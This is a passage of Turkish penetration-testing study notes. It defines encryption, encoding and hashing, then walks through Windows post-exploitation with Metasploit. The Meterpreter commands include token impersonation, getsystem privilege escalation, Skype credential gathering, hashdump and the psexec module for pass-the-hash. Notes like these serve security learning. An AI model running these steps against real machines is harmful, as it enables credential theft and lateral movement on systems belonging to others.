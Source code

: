     \>> edit
   
    \>> ipconfig
   
    \>> mkdir test
    
    \>> ^Z
    
    M> shell
   
    \>> 
    
## Karıştırılan Bazı Kavramlar

**- Encryption:** Şifreleme

**- Encoding:** Fotoğraf vs. gibi dosyaları makine diline çevirme işlemi, dönüştürücülük yapma işlemi.

**- Hashing:** Bir verinin kendisine özel geri döndürülemez bir çıktısıdır. Bu çıktı sayesinde aktarılan verinin bütünlüğü kontrol edilir.

## Post-Exploitation(Windows):

**- Pass the Hash Saldırısı:** Hash'ine sahip olduğumuz şifreyi, şifreyi bilmeden diğer makinelere erişim için kullanabiliriz.

  **- Uygulama:**

    ~~> exploit
    
    M> getuid
    
    M> use incognito
    
    M> list_tokens -u (atlayabileceğimiz kullanıcıları listeler)
    
    M> impersonate_token XPTESTMACHINA\\rpdtest
    
    M> getuid
   
    M> getsystem
    
    M> run post/windows/gather/enum_applications (makinede yüklü programları tespit eder)
    
    M> background
    
    ~~> search skype
    
    ~~> sessions -i 3
    
    M> run post/windows/gather/credentials/skype (eğer skype servisi yüklüyse skype'den bilgi çekmek için kullanılabilecek bir post-exploitation)
    
    M> getsystem 
    
    M> hashdump (kullanıcı şifrelerinin hash'lerini çeker)
    
    M> background
    
    ~~> use exploit/windows/smb/psexec
    